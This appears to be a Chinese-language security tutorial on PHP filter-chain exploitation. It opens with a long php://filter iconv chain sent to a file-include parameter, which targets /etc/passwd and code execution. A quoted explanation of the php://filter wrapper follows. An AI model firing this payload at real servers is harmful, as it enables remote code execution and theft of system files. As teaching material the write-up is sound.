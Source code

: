 ```php
GET /t00llll.php?include_=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.ISO_8859-14:1998.UTF32BE|convert.iconv.OSF00010009.ISO2022JP2|convert.iconv.UTF16.ISO-10646/UTF-8|convert.iconv.UTF-16.UTF8|convert.iconv.ISO_8859-14:1998.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&0=_RCE_
```

## 原理阐述

### php://filter

> 在PHP官方文档中有下面的介绍：
>
> php://filter 是一种元封装器， 设计用于数据流打开时的[筛选过滤](http://filters.html/)应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 [readfile()](http://function.readfile.html/)、 [file()](http://function.file.html/) 和 [file_get_contents()](http://function.file-get-contents.html/)， 在数据流内容读取之前没有机会应用其他过滤器。
>
> php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。

